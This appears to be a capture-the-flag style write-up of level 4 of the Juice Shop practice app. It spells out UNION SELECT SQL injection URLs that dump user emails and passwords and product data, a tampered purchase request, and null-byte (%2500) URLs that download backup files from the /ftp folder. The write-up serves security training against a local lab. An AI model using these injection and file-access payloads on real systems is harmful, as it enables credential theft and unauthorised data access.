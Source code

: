 # Level 4

## User Credentials
We need to do a sql injection with union select on the users table, we use the search box that is vulnerable and visit this url:

```
http://127.0.0.1:3000/rest/products/search?q=apple')) union select null,email,password,id,NULL,NULL,NULL,NULL,NULL from users --
```

## Christmas Special

We need to retrive the id of the product, to do this we use a sql injection with the union select, on the product search box, this is the url:

```
http://127.0.0.1:3000/rest/products/search?q=apple')) union select id,name,description,price,NULL,NULL,NULL,NULL,NULL from products --
```

We will find that the id is 10, so now as a login user we intercept the buy pocket of a product and sobstitute the id with 10.

## Forgotten Sales Backup

We need to go to /ftp and try to download the "coupons_2013.md.bak" file. To do that we encode the "%" as %25 followed by 00 the code that make file downloadable.

```
wget http://127.0.0.1:3000/ftp/coupons_2013.md.bak%2500.pdf
```

## Forgotten Developer Backup

As [Forgotten Sales Backup](https://github.com/AlessandroMorelli96/Writeups/blob/master/juice-shop/04_Level4.md#Forgotten-Sales-Backup), but this time we download "package.json.bak".

```
http://127.0.0.1:3000/ftp/package.json.bak%2500.pdf
```

## Easter Egg

As [Forgotten Sales Backup](https://github.com/AlessandroMorelli96/Writeups/blob/master/juice-shop/04_Level4.md#Forgotten-Sales-Backup), but this time we download "eastere.gg".

```
http://127.0.0.1:3000/ftp/eastere.gg%2500.pdf
```
